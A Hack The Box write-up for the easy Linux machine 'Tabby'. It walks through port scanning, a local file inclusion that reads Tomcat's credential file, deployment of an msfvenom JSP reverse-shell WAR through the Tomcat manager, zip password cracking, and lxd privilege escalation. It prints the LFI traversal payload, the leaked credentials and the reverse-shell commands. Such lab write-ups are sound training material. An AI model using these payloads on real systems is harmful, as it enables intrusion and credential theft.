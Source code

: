 ```yaml
---
title: "Tabby"
categories:
 - hackthebox
tags:
 - linux
 - easy
 - writeups
author_profile: true
---
```


Test Room

[Easy-Linux-Room](https://www.hackthebox.eu/home/machines/profile/259)

> IP 10.10.10.194

#### nmap
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

#### gobuster
```
/files
    /archive
    /statement
/assets
    /images
```

#### port 8080
tomcat 9 is running, any exploits ?

#### statement
We apologise to all our customers for the previous data breach.

We have changed the site to remove this tool, and have invested heavily in more secure servers

Found: _http://megahosting.htb/news.php?file=statement_

> add megahosting.htb to /etc/hosts

> The file parameter has lfi 

Are creds of tomcat server stored in some file ?

`file=../../../../../../usr/share/tomcat9/etc/tomcat-users.xml`
```
 <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
</tomcat-users>
```
Now since we have creds, look for if we can get RCE

#### tomcat RCE using creds
For some reasons msf exploit had problem with some fingerprint not matching with tomcat, idk
So can we connect to it with available creds ? 

I think I got what I needed, `tomcatmanager: is a a command line tool and python library for managing a tomcat server `
It didn't work either.

So went through docs to find, you can deploy add delete start stop server,

Create a rev_shell using msfvenom and add it to a path, listen to nc and curl the path to get shell.
```
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.15.88 port=4444 -f war > shell.war
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://10.10.10.194:8080/manager/text/deploy?path=/rev_shell'
# or tomcat-manager worked deploying but no shell  
tomcat-manager --user=tomcat --password=$3cureP4s5w0rd123! http://megahosting.htb:8080/manager deploy local shell.war /shell

curl -u 'tomcat':'$3cureP4s5w0rd123!' http://megahosting.htb:8080/shell/
```
**Note**: Learnt sth interesting, all above errors I was getting was probably due to how "$ behaves in bash. 
```
# try 
echo $3cureP4s5w0rd123!
echo "$3cureP4s5w0rd123!"
echo '$3cureP4s5w0rd123!'
# got it ? haha dope
```
#### Enumeration 
we find a backup file unzipping it asks for password

crack the password using `fcrackzip`

The unzipped directory didn't have anycredentials, is the password of ash ? Yeah ...

#### Privilege Escalation
The user has lxd group, so tried lxd privilege escalation, got a error since lxd wasn't initiated, init it and do it again to get root.

**Rooted**











